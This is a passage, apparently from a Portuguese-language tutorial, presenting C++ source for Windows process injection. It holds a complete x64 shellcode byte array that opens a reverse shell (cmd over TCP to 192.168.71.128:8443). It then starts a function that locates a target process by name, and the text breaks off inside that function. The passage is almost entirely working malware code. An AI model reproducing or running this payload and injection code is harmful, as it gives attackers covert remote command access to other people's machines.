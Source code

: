 O código completo fica:

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>
#include <vector>

unsigned char payload[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00"
"\x00\x49\x89\xe5\x49\xbc\x02\x00\x20\xfb\xc0\xa8\x47\x80"
"\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
"\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29"
"\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48"
"\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea"
"\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
"\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81"
"\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00"
"\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0"
"\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01"
"\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41"
"\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d"
"\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48"
"\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5"
"\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int payload_len = sizeof(payload);

int findPID(const char *procName) {

    HANDLE hSnapshot;
    PROCESSENTRY32 pe32;
    int pid = 0;
    BOOL proc;

    // snapshot de todos os processos em execucao
    hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

    // inicializando dwSize
    pe32.dwSize = sizeof(PROCESSENTRY32);

    // inicio da iteracao, primeiro processo
    proc = Process32First(hSnapshot, &pe32);

    // loop para iterar sobre os processos
```